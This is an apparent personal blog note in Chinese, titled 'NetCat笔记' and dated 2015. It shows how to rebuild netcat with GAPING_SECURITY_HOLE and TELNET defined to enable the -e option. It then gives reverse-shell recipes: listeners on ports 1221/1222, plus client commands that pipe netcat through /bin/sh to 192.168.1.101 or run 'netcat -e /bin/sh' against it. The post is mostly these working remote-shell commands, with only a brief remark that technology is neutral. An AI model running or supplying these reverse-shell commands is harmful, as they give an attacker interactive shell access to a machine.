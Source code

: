 ```yaml
---
layout: post
title: NetCat笔记
date: 2015-08-18 21:38
author: admin
comments: true
categories: []
---
```


老实说黑客技术，不宜研究太深。但有机会将黑客技术用于正途，还是一件大好事。正所谓技术没有正邪，只是看使用的人。
另外反向穿透太强大了。
 
开启反向代理，需要修改netcat原代码，并进行重新编译。
修改netcat.c
如何想编译出 -e 和 -t 选项， 只要加上两条define 语句即可。
#define GAPING_SECURITY_HOLE
#define TELNET
 
使用反向代理：
 
输入输出分开
服务端
./netcat -vv -l -p 1221
./netcat -vv -l -p 1222
客户端
./netcat 192.168.1.101 1221 | /bin/sh |nc 192.168.1.101 1222
 
输入输出相同
服务端
./netcat -vv -l -p 1222
客户端
./netcat -e /bin/sh 192.168.1.101 1222

